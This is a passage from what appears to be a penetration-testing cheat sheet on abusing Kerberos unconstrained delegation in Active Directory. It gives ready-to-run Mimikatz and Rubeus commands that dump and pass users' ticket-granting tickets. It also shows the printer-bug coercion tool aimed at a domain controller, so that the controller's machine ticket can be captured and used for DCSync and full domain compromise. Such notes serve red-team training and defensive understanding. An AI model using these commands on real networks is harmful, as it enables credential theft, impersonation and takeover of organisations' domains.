 PowerShell

#### Unconstrained delegation <a href="#unconstrained-delegation" id="unconstrained-delegation"></a>

Unconstrained Delegation can be set on a _frontend service_ (e.g., an IIS web server) to allow it to delegate on behalf of a user to _any service in the domain_ (towards a _backend service_, such as an MSSQL database).

DACL UAC property: `TrustedForDelegation`.

**Exploitation**

With administrative privileges on a server with Unconstrained Delegation set, we can dump the TGTs for other users that have a connection. If we do this successfully, we can impersonate the victim user towards any service in the domain.

With Mimikatz:

```
sekurlsa::tickets /export
kerberos::ptt c:\path\to\ticket.kirbi
```

Plaintext

Or with Rubeus:

```powershell
.\Rubeus.exe triage
.\Rubeus.exe dump /luid:0x5379f2 /nowrap
.\Rubeus.exe ptt /ticket:doIFSDCC[...]
```

PowerShell

We can also gain the hash for a domain controller machine account, if that DC is vulnerable to the printer bug. If we do this successfully, we can DCSync the domain controller (see below) to completely compromise the current domain.

On the server with Unconstrained Delegation, monitor for new tickets with Rubeus.

```powershell
.\Rubeus.exe monitor /interval:5 /nowrap
```

PowerShell

From attacking machine, entice the Domain Controller to connect using the printer bug. Binary from [here](https://github.com/leechristensen/SpoolSample).

```powershell
.\MS-RPRN.exe \\dc.targetdomain.com \\unconstrained-server.targetdomain.com
```

PowerShell

The TGT for the machine account of the DC should come in in the first session. We can pass this ticket into our current session to gain DCSync privileges (see below).

```powershell
.\Rubeus.exe ptt /ticket:doIFxTCCBc...
```
